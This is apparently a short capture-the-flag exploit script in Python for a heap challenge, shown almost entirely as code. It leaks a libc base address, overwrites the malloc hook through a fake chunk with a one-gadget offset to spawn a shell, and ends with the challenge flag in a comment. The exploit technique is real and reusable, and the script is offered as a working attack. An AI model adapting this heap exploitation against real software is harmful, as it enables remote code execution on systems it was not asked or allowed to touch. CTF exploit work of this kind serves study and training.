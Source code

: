 ```py
remove(2)
conceal(4,0x70,'\x00')
io.recvuntil('concealed!\n')
libc_base = u64(unhexlify(io.recvn(12))+'\x00\x00')-0x3c4b78
log.info('Libc leak: {}'.format(hex(libc_base)))
conceal(5,0x58,tosend(p64(libc_base+malloc_hook-0x23)))
conceal(6,0x58,tosend('HKHK'))
conceal(7,0x58,tosend('HKHK'))
conceal(8,0x58,send('A'*(32-13)+p64(libc_base+0x4527a)))
getshell()
#inctf{th4t5_4ll_f0lks_say_th3_bUgs_b1daf2789929}
io.interactive()
```
